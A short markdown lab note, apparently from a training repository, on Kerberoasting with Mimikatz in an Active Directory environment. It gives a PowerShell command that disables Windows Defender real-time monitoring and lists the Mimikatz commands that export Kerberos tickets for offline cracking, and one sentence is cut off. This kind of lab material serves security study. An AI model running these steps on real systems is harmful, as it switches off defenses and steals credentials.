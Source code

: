 # Kerberoasting with Mimikatz

**NOTE: This is only to be used in an Active Directory environment on the Client machine. Please make sure you have selected the proper machine prior to running this attack.**

**Also, if you find that this attack is not working, you may need to disable Windows Defender. This can be done by opening PowerShell as an Administrator and running the following command:**
`Set-MpPreference -DisableRealtimeMonitoring $true`

This attack uses Mimikatz to exploit Kerberos tickets for. The Mimikatz commands are: 
- `privilege::debug`
- `kerberos::list /export`